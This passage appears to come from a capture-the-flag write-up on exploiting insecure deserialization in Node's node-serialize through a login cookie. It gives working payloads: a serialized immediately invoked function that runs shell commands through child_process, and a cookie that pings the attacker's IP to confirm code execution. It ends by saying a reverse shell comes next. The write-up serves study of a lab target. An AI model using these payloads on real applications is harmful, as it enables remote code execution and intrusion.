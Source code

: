 ```javascript
app.use('/login', loginRouter)


app.listen(5000)
```

As we can see, there is unserialize function used inside authenticated function,
and it's probably used on the cookie. We can exploit that, since unserialize 
is vulnerable to untrusted input. Basically, we can make a javascript
object with function as a value of one of the fields. 
Example object:

```javascript
var y = {
    rce : function(){
        require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
    },
}
```

Then, we need to serialize it using node function:

```javascript
console.log(serialize.serialize(y))
```

It gives following output:

```json
{
    "rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',
function(error, stdout, stderr) { console.log(stdout) });\n }()"
}
```

Notice that we added () after function definition, to make it immediate.
Now it will resolve as soon as object is created, executing contents of the function.

After doing this, we need to url-encode our payload, and feed it to application
as cookie value. We will not execute ls though, as it would be useless since
we cannot see the output. We will execute ping instead, sending request to
our attack machine, while setting up tcpdump to listen beforehand:

```bash
> sudo tcpdump -ni tun0 icmp
```
Payload:

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process')
.exec('ping -c 1 10.10.14.8', function(error, stdout, stderr){console.log(stdout)});}()"}
```

After urlencoding payload and making request to / with it, we got a ping from
victim machine. Now that we confirmed that rce indeed works, we can proceed to
sending payload with reverse shell this time.

